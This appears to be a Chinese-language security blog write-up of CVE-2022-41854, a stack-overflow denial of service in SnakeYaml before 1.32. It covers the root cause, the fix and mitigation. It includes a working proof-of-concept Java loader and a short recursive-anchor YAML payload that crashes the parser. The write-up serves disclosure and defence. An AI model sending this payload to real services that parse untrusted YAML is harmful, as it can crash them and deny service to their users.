

# Snakeyaml vulnerable to Stack overflow leading to denial of service (CVE-2022-41854)

漏洞编号：

```
CVE-2022-41854
```

影响范围：

```
< 1.32
```

修复版本：

```
1.32
```

CWE：

```
CWE-787 Out-of-bounds Write
CWE-121 Stack-based Buffer Overflow
```

# 漏洞说明 

这个洞是Google的 OSS-Fuzz计划fuzz出来的，所以输入可能看起来很奇怪。漏洞的成因主要是因为当load的yaml的内容是某些特殊的值时，则可能会导致递归没有出口从而导致栈溢出，抛出一个StackOverflowError错误，一般情况下可能是没有问题，但是如果是解析非可信的yaml，比如yaml是由用户输入的，这个时候恶意的用户就可以构造非法的输入，则就可以引起一个栈溢出，如果没有try-catch处理的话，就会导致当前线程crash掉，由此产生一个DoS漏洞，下面是一个poc的例子： 

```java
package cc11001100.snakeyaml;

import org.yaml.snakeyaml.Yaml;

import java.io.InputStream;

/**
 * @author CC11001100
 */
public class PocMain {

    public static void main(String[] args) {

        String filepath = "clusterfuzz-testcase-YamlFuzzer-4919139099082752";
        Yaml yaml = new Yaml();
        InputStream inputStream = Thread.currentThread().getContextClassLoader().getResourceAsStream(filepath);
        Object o = yaml.load(inputStream);

        // Output:
        // Exception in thread "main" java.lang.StackOverflowError
        //	at java.base/java.util.ArrayList.hashCode(ArrayList.java:582)
        //	at java.base/java.util.ArrayList.hashCodeRange(ArrayList.java:595)
        //	at java.base/java.util.ArrayList.hashCode(ArrayList.java:582)
        //	at java.base/java.util.ArrayList.hashCodeRange(ArrayList.java:595)
        //	at java.base/java.util.ArrayList.hashCode(ArrayList.java:582)
        //	at java.base/java.util.ArrayList.hashCodeRange(ArrayList.java:595)
        //	at java.base/java.util.ArrayList.hashCode(ArrayList.java:582)
        //	at java.base/java.util.ArrayList.hashCodeRange(ArrayList.java:595)
        // .......

    }

}
```

而文件clusterfuzz-testcase-YamlFuzzer-4919139099082752输入的yaml内容：

```
&a
- *a
- *a
- *a:
- *a
- *a
- *a
```

# 漏洞分析

在看漏洞之前，需要一点前置知识，让我们先来看一下ArrayList的hashCode方法，这个方法中调用了hashCodeRange：

```java
    public int hashCode() {
        int expectedModCount = modCount;
        int hash = hashCodeRange(0, size);
        checkForComodification(expectedModCount);
        return hash;
    }
```

在hashCodeRange中对List中的每个元素都调用了一次hashCode方法：

```java
    int hashCodeRange(int from, int to) {
        final Object[] es = elementData;
        if (to > es.length) {
            throw new ConcurrentModificationException();
        }
        int hashCode = 1;
        for (int i = from; i < to; i++) {
            Object e = es[i];
            hashCode = 31 * hashCode + (e == null ? 0 : e.hashCode());
        }
        return hashCode;
    }
```

结合上面的代码，当我们对ArrayList调用hashCode方法的时候，我们可以认为我们是以当前的ArrayList为树根进行了一次树的遍历，这个是理想中的正常情况，但是如果ArrayList出现了循环引用从而导致这不是一棵树而成为了一颗有环图呢？比如下面的代码中List就会循环引用自身，这为了简单易懂尽可能将代码写得简洁了，实际情况中可能不会出现一模一样的代码，但是当逻辑足够复杂的时候，确实是有可能不小心出现循环引用的：

```java
package cc11001100.snakeyaml;

import java.util.ArrayList;
import java.util.List;

/**
 * @author CC11001100
 */
public class ArrayListHashCodeSOE {

    public static void main(String[] args) {
        List<Object> l = new ArrayList<>();
        l.add(l);
        System.out.println(l.hashCode());

        // Output:
        // Exception in thread "main" java.lang.StackOverflowError
        //	at java.base/java.util.ArrayList.hashCode(ArrayList.java:582)
        //	at java.base/java.util.ArrayList.hashCodeRange(ArrayList.java:595)
        //	at java.base/java.util.ArrayList.hashCode(ArrayList.java:582)
        //	at java.base/java.util.ArrayList.hashCodeRange(ArrayList.java:595)
        //	at java.base/java.util.ArrayList.hashCode(ArrayList.java:582)
        //	at java.base/java.util.ArrayList.hashCodeRange(ArrayList.java:595)
        //	at java.base/java.util.ArrayList.hashCode(ArrayList.java:582)
        //	at java.base/java.util.ArrayList.hashCodeRange(ArrayList.java:595)
        // .......
        
    }

}
```

这个时候漏洞的修复思路就很简单了，只需要找到导致ArrayList出现循环引用的地方修复即可，同理我们也可以按照这个原理去挖掘其它框架的漏洞，而SnakeYaml的这个Dos的洞就是因为它解析的yaml中出现了地址引用，我们把**&** 称之为锚点，类似于声明了一个变量，用 *****称之为别名来引用前面声明的锚点，比如:

```
defaults: &defaults
  adapter:  postgres
  host:     localhost

development:
  database: myapp_development
  <<: *defaults

test:
  database: myapp_test
  <<: *defaults
```

而我们导致SOE的payload正是使用了循环引用的锚点：

```
&a
- *a
- *a
- *a:
- *a
- *a
- *a
```

让我们来看一下SnakeYaml是如何修复的，这是修复漏洞的PR： 

```
https://bitbucket.org/snakeyaml/snakeyaml/pull-requests/24
```

其中关键的代码是这部分：



在原来的基础上增加了一个检查，如果发现key中有递归引用的话，如果配置文件中允许则递归，否则的话就直接抛出异常不允许了，如果升级到了1.32或以上的版本，再在YAML中尝试递归引用的时候就会抛出异常：

```
Exception in thread "main" org.yaml.snakeyaml.error.YAMLException: Recursive key for mapping is detected but it is not configured to be allowed.
	at org.yaml.snakeyaml.constructor.SafeConstructor.processDuplicateKeys(SafeConstructor.java:108)
	at org.yaml.snakeyaml.constructor.SafeConstructor.flattenMapping(SafeConstructor.java:77)
	at org.yaml.snakeyaml.constructor.SafeConstructor.flattenMapping(SafeConstructor.java:72)
	at org.yaml.snakeyaml.constructor.SafeConstructor.constructMapping2ndStep(SafeConstructor.java:208)
	at org.yaml.snakeyaml.constructor.BaseConstructor.constructMapping(BaseConstructor.java:472)
	at org.yaml.snakeyaml.constructor.SafeConstructor$ConstructYamlMap.construct(SafeConstructor.java:596)
	at org.yaml.snakeyaml.constructor.BaseConstructor.constructObjectNoCheck(BaseConstructor.java:235)
	at org.yaml.snakeyaml.constructor.BaseConstructor.constructObject(BaseConstructor.java:224)
	at org.yaml.snakeyaml.constructor.BaseConstructor.constructSequenceStep2(BaseConstructor.java:403)
	at org.yaml.snakeyaml.constructor.SafeConstructor$ConstructYamlSeq.construct2ndStep(SafeConstructor.java:581)
	at org.yaml.snakeyaml.constructor.BaseConstructor.constructObjectNoCheck(BaseConstructor.java:241)
	at org.yaml.snakeyaml.constructor.BaseConstructor.constructObject(BaseConstructor.java:224)
	at org.yaml.snakeyaml.constructor.BaseConstructor.constructDocument(BaseConstructor.java:178)
	at org.yaml.snakeyaml.constructor.BaseConstructor.getSingleData(BaseConstructor.java:162)
	at org.yaml.snakeyaml.Yaml.loadFromReader(Yaml.java:477)
	at org.yaml.snakeyaml.Yaml.load(Yaml.java:418)
	at cc11001100.snakeyaml.PocMain.main(PocMain.java:17)
```

# 吃瓜

这个洞本身并没有什么特殊的，不过我喜欢看他们在堆高高的楼来撕逼这到底是不是洞，开发者嘴硬倔强的样子尤其可爱，吃瓜链接：

```
https://bitbucket.org/snakeyaml/snakeyaml/issues/531/
```

# 缓解方案

升级SnakeYaml的版本，或者。。。加try-catch

```java
package cc11001100.snakeyaml;

import org.yaml.snakeyaml.Yaml;

import java.io.InputStream;

/**
 * @author CC11001100
 */
public class TryCatchMain {

    /**
     * 解析给定路径的YAML文件
     *
     * @param yamlFilePath
     * @return
     */
    public static Object parse(String yamlFilePath) {
        try {
            Yaml yaml = new Yaml();
            InputStream inputStream = Thread.currentThread().getContextClassLoader().getResourceAsStream(yamlFilePath);
            return yaml.load(inputStream);
        } catch (StackOverflowError e) {
            // ignored
        }
        return null;
    }

    public static void main(String[] args) {

        String filepath = "clusterfuzz-testcase-YamlFuzzer-4919139099082752";
        Object yamlObject = parse(filepath);
        if (yamlObject == null) {
            System.out.println("Yaml文件解析失败！");
            return;
        }
        // 判断非空后再使用
        System.out.println(yamlObject);

        // Output:
        // Yaml文件解析失败！

    }

}
```

# 参考资料

- https://github.com/advisories/GHSA-w37g-rhq8-7m4j

- https://nvd.nist.gov/vuln/detail/CVE-2022-41854
- https://osv.dev/vulnerability/GHSA-w37g-rhq8-7m4j
- https://bitbucket.org/snakeyaml/snakeyaml/issues/531/


